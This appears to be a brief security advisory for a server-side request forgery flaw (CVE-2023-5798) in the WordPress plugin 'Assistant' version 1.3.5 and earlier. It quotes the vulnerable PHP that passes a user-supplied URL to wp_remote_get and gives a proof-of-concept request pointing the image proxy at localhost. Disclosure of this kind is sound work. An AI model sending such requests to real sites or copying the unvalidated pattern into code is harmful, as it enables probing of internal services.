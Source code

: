 ### Assistant - Every Day Productivity Apps <= 1.3.5 SSRF

Assistant <= 1.3.5 is vulnerable to SSRF

Source: `$_GET`

Sink: `wp_remote_get`

Code:

backend/src/Hooks/ImageProxy.php

```
public function render_image() {
  ...
  $url = urldecode( $_GET['url'] );
  $response = wp_remote_get( $url );
}
```

POC:

1. Listen on 8080 on server side
2. Send a get request to index.php?fl_asst_image_proxy&url=http%3A%2F%2Flocalhost:8080
3. Receive a request on server side.

Status: CVE-2023-5798